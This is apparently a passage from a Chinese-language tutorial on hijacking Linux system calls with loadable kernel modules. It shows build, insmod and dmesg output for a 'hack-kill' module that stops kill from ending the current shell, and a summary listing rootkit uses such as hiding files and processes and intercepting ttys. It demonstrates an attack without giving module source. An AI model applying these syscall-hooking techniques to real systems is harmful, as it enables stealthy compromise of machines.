/home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.c:20:26: warning: initialization from incompatible pointer type [enabled by default]
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.mod.o
  LD [M]  /home/akaedu/Github/comment-subs/secure-hole/2-hack-kill/hack-kill.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-29-generic-pae'
$ 
\end{verbatim}\end{shaded}}
\subsection{插入模块,查看系统日志输出}

{\begin{shaded}\begin{verbatim}
$ sudo insmod hack-kill.ko
[sudo] password for akaedu: 
$ sudo dmesg -C
$ dmesg | tail
[ 5923.634714] init ok, SYSCALL NUM = 37
[ 5923.634719] table at c15b0000
\end{verbatim}\end{shaded}}
\subsection{运行 kill 试图杀死当前 bash 不能成功}

{\begin{shaded}\begin{verbatim}
$ ps
  PID TTY          TIME CMD
 3465 pts/2    00:00:00 bash
 9074 pts/2    00:00:00 ps
$ kill 3465
$ dmesg | tail
[ 6018.505708] kill para pid = 3465! sig = 15
[ 6018.505712] kill is hacked!
[ 6018.505715] Use kill -9 to kill your bash!
$ 
\end{verbatim}\end{shaded}}
\subsection{杀死其他进程(cat)可以成功}

启动一个新的 bash 窗口,运行 cat \& 命令

{\begin{shaded}\begin{verbatim}
$ cat 
\end{verbatim}\end{shaded}}
回到之前的 bash 窗口,查看该进程 id

{\begin{shaded}\begin{verbatim}
$ ps a | grep cat
 9092 pts/3    S+     0:00 cat
 9097 pts/2    S+     0:00 grep --color=auto cat
$
\end{verbatim}\end{shaded}}
成功杀死该 cat 进程

{\begin{shaded}\begin{verbatim}
$ kill 9092
$ dmesg | tail
[ 6018.505708] kill para pid = 3465! sig = 15
[ 6018.505712] kill is hacked!
[ 6018.505715] Use kill -9 to kill your bash!
[ 6244.359153] kill para pid = 9092! sig = 15
[ 6244.359285] ret = 0
$ 
\end{verbatim}\end{shaded}}
查看新的 bash 窗口,cat 进程已经杀死

{\begin{shaded}\begin{verbatim}
$ cat
Terminated
$ 
\end{verbatim}\end{shaded}}
\section{总结}

以上两个有关于用
LKM注入的方法,案例1中ls系统调用,我们只是简单接管了一下,并没有实现ls相关的功能,比较简单。案例2中的
kill
系统调用,我们不仅接管了kill,而且根据不同的环境情况,分别进行了相应的处理,也就是有选择的来调用原来的系统调用功能,这种方法是比较经常使用的攻击手段。

事实上,Linux
内核目前支持的300多个(3.2.0的内核是348个)系统调用,都可以采用类似上面的2种方法来进行内核攻击,涉及的范围包括隐藏文件,隐藏文件内容,隐藏进程,控制socket,截取终端tty,编写LKM病毒等等。

\begin{itemize}
\item
  参考资料:\\\url{http://hi.baidu.com/lu_youyou/item/b6585ff84ade0b1ea62988c9}
\end{itemize}
